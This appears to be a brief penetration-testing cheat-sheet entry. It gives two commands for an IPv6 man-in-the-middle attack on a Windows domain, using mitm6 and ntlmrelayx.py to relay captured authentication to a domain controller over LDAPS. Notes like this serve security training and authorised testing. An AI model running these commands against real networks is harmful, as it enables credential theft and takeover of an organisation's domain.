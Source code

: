 ### Essentially, we become Man-in-the-Middle using IPv6

## Tool: mitm6

## Steps: 

#### 1) sudo mitm6 -d DOMAIN

#### 2) ntlmrelayx.py -6 -t ldaps://DC_IP -wh FAKE.DOMAIN -l FOLDER (Run this first!)
